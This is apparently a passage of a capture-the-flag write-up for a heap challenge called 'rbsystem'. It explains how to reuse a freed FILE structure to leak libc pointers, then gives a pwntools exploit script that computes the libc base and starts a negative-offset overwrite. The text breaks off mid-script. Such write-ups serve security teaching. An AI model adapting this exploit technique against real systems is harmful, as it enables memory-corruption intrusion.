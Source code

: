 * Call **Open** and allocate the file structure on heap.
* Now call malloc to avoid top consolidation
* Close the file structure.
> **Remember** that **fclose** calls **free** internally.
* Now malloc as the same size of the file structure.
* Well you have the old file structure with some libc pointers still lurking around which u can leak by adding random bytes till that location by calling **edit**.

```py
from pwn import *
import sys

if(len(sys.argv)>1):
    io=remote('172.35.29.46',9999)
    context.noptrace=True
else:
    io=process('./rbsystem',env = {"LD_PRELOAD" : "./libc.so.6"})

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)

def add(idx,size):
    sla('choice: ','1')
    sla('Index: ',str(idx))
    sla('Size: ',str(size))

def edit(idx,off,size):
    sla('choice: ','2')
    sla('Index: ',str(idx))
    sla('Offset: ',str(off))
    sla('Size: ',str(size))

def show(idx):
    sla('choice: ','3')
    sla('Index: ',str(idx))

def fopen():
    sla('choice: ','4')

def fclose():
    sla('choice: ','5')

if __name__=="__main__":
    fopen()
    fclose()
    add(0,544)
    fopen()
    #Fill with random bytes until Libc
    edit(0,0,104)
    #Get libc
    show(0)
    re(113)
    libc_base = u64(re(6)+"\x00"*2) - 0x3ec680
    log.info("Libc @ "+str(hex(libc_base)))
    #Well sometimes the exploit crashed due to some corrupted leak and hence I added this check
    if(hex(libc_base)[2:4]=="7f"):
        #Add a chunk in such a way that file structure if above it in memory.
        add(1,544)
        #Here goes our random byte at the offset of fd of the file structure.
        edit(1,-4560,1)
```